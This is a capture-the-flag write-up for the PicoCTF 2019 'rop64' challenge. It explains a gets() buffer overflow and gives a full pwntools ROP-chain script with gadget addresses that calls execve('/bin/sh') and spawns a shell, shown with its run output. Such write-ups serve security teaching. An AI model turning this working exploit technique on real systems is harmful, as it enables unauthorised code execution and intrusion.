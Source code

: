 ```yaml
---
title: ROP 64 bits - execve syscall
description: Exploiting a buffer overflow and using ROP to call execve.
---
```


# ROP 64 bits - execve syscall

## Summary

Exploiting a buffer overflow and using ROP to call `execve`.

## Challenge

### Statement

!!! note ""
    Challenge : `rop64` from PicoCTF 2019.

Time for the classic ROP in 64-bit. Can you exploit this [program](https://2019shell1.picoctf.com/static/8bda0ef23a9ca5c2f395a039006dd5f7/vuln) to get a flag?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Answer

As you can see, we can exploit a buffer overlow on the `gets(buf)` function.

The goal here is to call `execve` with the argument `/bin/sh`. To do this we can look up at the [syscalls list](https://syscalls.w3challs.com/?arch=x86_64) for x86_64 architecture. The function `execve` is the number `59` and takes 3 arguments. In 64 bits architecture, arguments are passed via registers.

```
int execve(const char *filename, char *const argv[], char *const envp[]);

rax = 0x3b      ; 'execve' syscall id, 0x3b = 59
rdi = /bin/sh   ; Pointer to "/bin/sh" string in memory.
rsi = 0         ; No argument
rdx = 0			; No argument

Then, execute syscall.
```

To find the **padding** of the buffer overflow, I use the `cyclic` and `find_cyclic` functions of the pwntools library.

To set `rax` (or another register to a specified value) to `0x3b` we can use two methods.

1. Using the stack :
	1. `push 0x3b`, add `0x3b` on the stack
	2. `pop rax`, pop `0x3b` into `rax`
2. Using the power of ROP :
	1. `xor rax, rax`, set `rax` to 0
	2. `add rax, 3`, add 3 to `rax` (repeat this 19 times, 19*3=57)
	3. `add rax, 2`, add 2 to `rax` (57+2 = 59 = 0x3B).

To set `rsi` and `rdx` to 0, we will use the stack.

To set `rdi` to a pointer of the `/bin/sh` string in memory, we need to find a writable address. Inside `gdb`, we can use the `vmmap` command to show the range of addresses that are writable. In our case, we will use the first writable address, `0x00000000006b6000`.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/.../rop64/vuln
```

We will use the instruction `mov qword ptr [rax], rdx` to write `/bin/sh` into `0x00000000006b6000`, with `rax` equals to `0x00000000006b6000` and `rdx` to `/bin/sh`.

To find all the gadgets addresses, I use [ropper](https://github.com/sashs/ropper).

```bash
$ ropper -f vuln --search 'pop rdx; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx; ret;

[INFO] File: vuln
0x000000000044bf16: pop rdx; ret;
```

We are now able to write our python solver script.

**Source code (solve.py) :**

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find, log

# context
PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(32)

    proc.sendlineafter(b"Can you ROP your way out of this?\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


"""
0x0000000000444c50: xor rax, rax; ret;
0x00000000004749c0: add rax, 1; ret;
0x00000000004749b7: add rax, 2; ret;
0x00000000004749d0: add rax, 3; ret;

0x000000000048d341: mov qword ptr [rax], rdx; ret;

0x00000000004156f4: pop rax; ret;
0x0000000000400686: pop rdi; ret;
0x00000000004100d3: pop rsi; ret;
0x000000000044bf16: pop rdx; ret;

0x000000000040123c: syscall;
"""

# padding size
padding_size = find_padding_size()
log.info(f"Padding size : {padding_size}")

# gadgets
xor_rax   = p64(0x0000000000444c50)
add_rax_2 = p64(0x00000000004749b7)
add_rax_3 = p64(0x00000000004749d0)
pop_rax   = p64(0x00000000004156f4)
pop_rdi   = p64(0x0000000000400686)
pop_rsi   = p64(0x00000000004100d3)
pop_rdx   = p64(0x000000000044bf16)
bin_sh    = b"/bin/sh\x00"
syscall   = p64(0x000000000040123c)
writable_memory = p64(0x00000000006b6000)
write_memory_into_rax = p64(0x000000000048d341)

# padding
buf = b"A" * padding_size

# write "/bin/sh" string into memory
buf += pop_rdx
buf += bin_sh
buf += pop_rax
buf += writable_memory
buf += write_memory_into_rax

# set rax to '0x3b' (execve syscall id)
"""
buf += pop_rax
buf += p64(0x3b)
"""
buf += xor_rax
buf += add_rax_3 * 19
buf += add_rax_2 * 1

# set 'rdi' to '/bin/sh' address pointer
buf += pop_rdi
buf += writable_memory

# set 'rsi' to 0 
buf += pop_rsi
buf += p64(0)

# set 'rdx' to 0
buf += pop_rdx
buf += p64(0)

# syscall
buf += syscall

proc = process(PROGRAM)
proc.sendlineafter(b"Can you ROP your way out of this?\n", buf)
proc.interactive()
```

**Execution :**

```bash
$ python3 solve.py
[+] Starting local process './vuln': pid 14552
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 14552)
[+] Parsing corefile...: Done
[*] '/home/.../rop64/core.14552'
    Arch:      amd64-64-little
    RIP:       0x400b6e
    RSP:       0x7ffcdaa49cd8
    Exe:       '/home/.../rop64/vuln' (0x400000)
    Fault:     0x6161616861616167
[*] Padding size : 24
[+] Starting local process './vuln': pid 14566
[*] Switching to interactive mode
$ id
uid=1000(xanhacks) gid=1000(xanhacks) groups=1000(xanhacks),995(audio),998(wheel)
```